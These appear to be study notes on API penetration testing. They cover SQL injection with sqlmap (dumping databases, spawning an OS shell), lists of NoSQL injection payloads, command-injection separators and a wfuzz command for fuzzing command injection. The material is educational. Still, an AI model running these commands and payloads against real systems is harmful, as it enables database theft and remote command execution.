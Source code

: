   - Using SQLmap we could use intresting burp request (we can save those in burp ) to throw it into the sqlmap and scan it
    
    sqlmap -r /home/hapihacker/burprequest1 -p password
      (the p is parameter we can test)
    sqlmap -r /home/hapihacker/burprequest1 -p vuln-param –dump-all
      (this will dump all the database from the server)
    sqlmap -r /home/hapihacker/burprequest1 -p vuln-param –os-shell
      (spanning SHell)
    sqlmap -r /home/hapihacker/burprequest1 -p vuln-param –os-pwn

### NoSQL Injection pageno
  - its like database that doesnot use sql basically or any structured language its 

  $gt         || '1'=='1
{"$gt":""}    //
{"$gt":-1}    ||'a'\\'a
$ne           '||'1'=='1';//
{"$ne":""}    '/{}:
{"$ne":-1}    '"\;{}
$nin          '"\/$[].>
{"$nin":1}    {"$where":"sleep(1000)"}
{"$nin":[1]}

### OS Injection
  - Basically using os command using pipes, ands , command , and more
  if windows use "ipconfig" adnd linux as "ifconfig"
  |   '
  ||  "
  &   ;
  &&  '"


  wfuzz -z file,wordlists/commandsep.txt -z file,wordlists/os-cmds.txt http://vulnerableAPI.com/api/users/query?=WFUZZWFUZ2Z


- in above command first one is seperator and second one is command to execute
